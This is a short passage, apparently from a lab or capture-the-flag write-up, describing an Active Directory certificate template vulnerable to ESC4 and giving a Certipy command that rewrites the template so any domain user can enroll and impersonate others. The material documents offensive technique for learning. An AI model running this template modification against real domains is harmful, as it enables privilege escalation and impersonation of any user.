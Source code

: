 <img src="attachments/38d961ce5dc117b710458f4c74864bfc.png" />

We discovered that the SendaiComputer certificate template was vulnerable to an ESC4 attack, as `SENDAI.VL\\CA-Operators` had write permissions to it.  

Using Certipy, we modified the configuration of this template to allow domain users to enroll for it and impersonate any user so that we can exploit it using the ESC1.

```
certipy-ad template -u clifford.davey -target dc.sendai.vl -dc-ip 10.10.126.132 -template SendaiComputer
```
